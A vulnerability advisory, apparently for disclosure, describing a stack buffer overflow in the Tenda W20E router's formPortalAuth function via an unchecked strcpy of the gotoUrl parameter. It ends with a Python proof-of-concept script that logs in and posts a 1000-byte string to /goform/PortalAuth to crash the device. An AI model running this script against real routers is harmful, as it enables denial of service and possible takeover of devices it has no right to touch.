


# Vulnerability Report: Stack-based Buffer Overflow in Tenda W20E `formPortalAuth`
A stack-based buffer overflow vulnerability has been identified in the web management interface of the **Tenda W20E** enterprise router. An attacker can trigger this vulnerability by sending a maliciously crafted, overly long string within the `gotoUrl` parameter to the `/goform/PortalAuth` endpoint. Successful exploitation can result in a service crash (DoS) or Remote Code Execution (RCE) with root privileges.

### Vulnerability Details
**Product Information** 

Product:Tenda W20E Enterprise Router

Affected Version: V15.11.0.6

Vulnerability Type: Stack-based Buffer Overflow


### Description:
The vulnerability exists within the `formPortalAuth` function, which handles portal authentication requests. The function allocates a fixed-size stack buffer named `redirect_url` of **256 bytes**.

Under certain conditions , the function attempts to retrieve a user-provided fallback URL using `websGetVar(wp, "gotoUrl", ...)`. The retrieved value is then copied into the `redirect_url` buffer using the unsafe `strcpy` function:

Since there is no length validation on the `gotoUrl` input, an attacker can provide a string significantly longer than 256 bytes. This will overflow the stack buffer, overwriting the saved Link Register (LR/Return Address) and allowing the attacker to hijack the program's control flow.



### Poc



```python
import requests
import base64

host = "192.168.0.1"
s = requests.session()

def trigger_overflow():
    encoded_pwd = base64.b64encode(b"aaaa").decode()
    s.post(f"http://{host}/goform/setQuickCfgWifiAndLogin", data={"sysUserPassword": encoded_pwd})
    
    if not s.cookies.get("user"):
        s.cookies.set("user", "admin") 

    url = f"http://{host}/goform/PortalAuth"
    payload = "A" * 1000
    
    resp = s.post(url, data={"gotoUrl": payload}, timeout=5)
    print(resp.content)
```